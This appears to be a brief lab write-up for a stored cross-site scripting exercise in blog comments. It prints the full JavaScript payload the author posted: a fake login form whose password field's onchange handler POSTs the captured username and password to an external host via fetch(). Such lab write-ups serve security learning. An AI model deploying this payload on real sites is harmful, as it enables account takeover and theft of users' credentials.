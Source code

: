 *This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.*

After a long time figuring out the correct functioning script, I ran the following in the comment function:
```javascript
<body>
  <script>
    function stealsCreds(u, p) {
      fetch("https://", {
        method: "POST",
        mode: "no-cors",
        body: u+":"+p,
      });
    }
  </script>
  <form>
    username:<input type="text" id="username101" name="username" />
    password:<input
      name="password"
      type="password"
      id="password101"
      onchange="if(this.value.length){stealsCreds((document.getElementById('username101').value),(document.getElementById('password101').value));}"
    />
  </form>
</body>
```
![Screenshot 2024-05-17 at 3.19.43 PM](images/Screenshot%202024-05-17%20at%203.19.43%20PM.png)
